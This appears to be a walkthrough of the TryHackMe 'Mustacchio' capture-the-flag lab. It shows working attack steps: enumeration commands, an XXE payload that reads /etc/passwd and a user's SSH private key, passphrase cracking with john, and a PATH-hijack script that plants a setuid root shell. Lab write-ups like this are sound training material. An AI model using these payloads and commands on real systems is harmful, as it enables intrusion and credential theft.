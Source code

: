 # Mustacchio

![image](https://user-images.githubusercontent.com/5285547/121743836-e0ac7c80-caf9-11eb-8112-a3e7e5a189bc.png)

[Room Link](https://tryhackme.com/room/mustacchio)

## Enumeration

### Nmap
```bash
nmap -p- -v 10.10.68.59
```

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

```

### Gobuster 

```bash
gobuster dir -u http://10.10.68.59  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```
http://10.10.68.59/
```bash
/gallery.html         (Status: 200) [Size: 1950]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 311] [--> http://10.10.68.59/images/]
/contact.html         (Status: 200) [Size: 1450]                                
/blog.html            (Status: 200) [Size: 3172]                                
/about.html           (Status: 200) [Size: 3152]                                
/custom               (Status: 301) [Size: 311] [--> http://10.10.68.59/custom/]
/robots.txt           (Status: 200) [Size: 28]                                  
/fonts                (Status: 301) [Size: 310] [--> http://10.10.68.59/fonts/] 
```
http://10.10.68.59/custom/
```bash
/css                  (Status: 301) [Size: 315] [--> http://10.10.68.59/custom/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.68.59/custom/js/]
```
http://10.10.68.59/custom/js/
```bash
/users.bak            (Status: 200) [Size: 8192]
/mobile.js            (Status: 200) [Size: 1470]
```

Here I found a users.bak file.  
I downloaded it to check the contents.  
It looked to be a mysql or database command for creating a new user

![image](https://user-images.githubusercontent.com/5285547/121745773-be682e00-cafc-11eb-951c-aff68f56f379.png)

We have a username: Admin 

http://10.10.68.59:8765/
```bash
/home.php             (Status: 302) [Size: 1993] [--> ../index.php]
/index.php            (Status: 200) [Size: 1363]                   
/assets               (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/assets/]
/auth                 (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/auth/] 
```

## Website's (port 80, 8765)

### Port 80

![image](https://user-images.githubusercontent.com/5285547/121744541-f9696200-cafa-11eb-9b2f-eeb05996505d.png)

This portal contains a blog for "mustacchio" brand for all mankind!  
Checking the webpages source code revealed nothing, but i noted a mobile.js script file included.  
Pressing F12 and using the developer console. I looked at the source code for the mobile.js file. 

![image](https://user-images.githubusercontent.com/5285547/121744888-7b598b00-cafb-11eb-8b8d-6741f1d9b90b.png)

I see some md5 at the bottom of the source code so try it on https://crackstation.net/  

![image](https://user-images.githubusercontent.com/5285547/121745099-d55a5080-cafb-11eb-852e-bb56347012c3.png)

Now we have a username and password but nowhere to use them!?

### Port 8765

http://10.10.68.59:8765/

This page presents us with what we need for our credentials, a login page. 

![image](https://user-images.githubusercontent.com/5285547/121746171-5d8d2580-cafd-11eb-9c70-328eff1493a4.png)

## XML

After loggin in we get presented with this page

![image](https://user-images.githubusercontent.com/5285547/121746302-94633b80-cafd-11eb-8967-24ee1bc995f4.png)

Pressing the submit button causes a pop up box to appear

![image](https://user-images.githubusercontent.com/5285547/121746351-ad6bec80-cafd-11eb-9b68-e51cd7b0a08b.png)

Like it said to, inject some xml!  
I got a payload from the internet here: https://github.com/payloadbox/xxe-injection-payload-list  
After injection, some text appereard at the bottom of the page, indicating some structure needed for the xml.

![image](https://user-images.githubusercontent.com/5285547/121746652-1d7a7280-cafe-11eb-88c7-e39980cafe3f.png)

Checking our payload sent.

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

Then noting the response we got, which was "Comment Preview,Name, Author, Comment". I built a simuilar xml element with a root tag.

```xml
<!--?xml version="1.0" ?-->
<root>
 <commentPreview>John</commentPreview>
 <name>Doe</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```

Injecting this into the page left me with better results. 

![image](https://user-images.githubusercontent.com/5285547/121747164-dd67bf80-cafe-11eb-937a-bb120221768d.png)

Lets try to get a file next /etc/passwd as the usual test

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
 <commentPreview>John</commentPreview>
 <name>&ent;</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```
![image](https://user-images.githubusercontent.com/5285547/121747279-13a53f00-caff-11eb-95b2-48b44ee149e2.png)

While I was in the source code I see a comment and some code above to give a few more hints about what to do next. 

![image](https://user-images.githubusercontent.com/5285547/121747510-6e3e9b00-caff-11eb-90a9-27f73d59beeb.png)

We can ssh as Barry but we need his id_rsa key. Using the file inclusion method above, I was able to get his id_rsa.
But, it was locked with a password..

![image](https://user-images.githubusercontent.com/5285547/121747692-b5c52700-caff-11eb-9a2a-fadcbfe6a5c3.png)

Time to get john out for a cracking good time! 

```bash
find / -name ssh2john* 2>/dev/null
python ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/5285547/121747920-03da2a80-cb00-11eb-9a14-3d7389bcb601.png)

## User

Now we can login as Barry with his password and get our first flag!

```bash
ssh barry@10.10.68.59 -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/121748244-8bc03480-cb00-11eb-8825-a385e9074344.png)

![image](https://user-images.githubusercontent.com/5285547/121748305-a2ff2200-cb00-11eb-93b9-6c121b69bcc1.png)

## Root

Looking arond the system I found a strange file in Joe's home file (ELF) called "live_log", 
I check it with strings to see what it maybe doing.
We can see the tail binary being called but its path is not absolute! Runnig the file

![image](https://user-images.githubusercontent.com/5285547/121748473-f1acbc00-cb00-11eb-89a4-f9b57c88396c.png)

```
./live_log
```
I checked the system process's. The file was being ran as root.

Knowing a file can be abused using path manipulation, I set about making a file that would be ran when the "live_log" was run. 

```bash
cd /tmp
```
```bash
nano tail
#/!bin/bash
cp /bin/bash /tmp/b
chmod u+s /tmp/b
```

Save the file and then enter the next comamnds so we can run the executable. Then set the path to /tmp first to call our file before the real tail file. 
```bash
chmod +x tail
export PATH=/tmp:$PATH
```

Now we can run and get our last flag.
```bash
/tmp/b -p
```

![image](https://user-images.githubusercontent.com/5285547/121749233-3ab14000-cb02-11eb-9d97-5d8f5f3d6688.png)


Thanks and happy hacking! :)




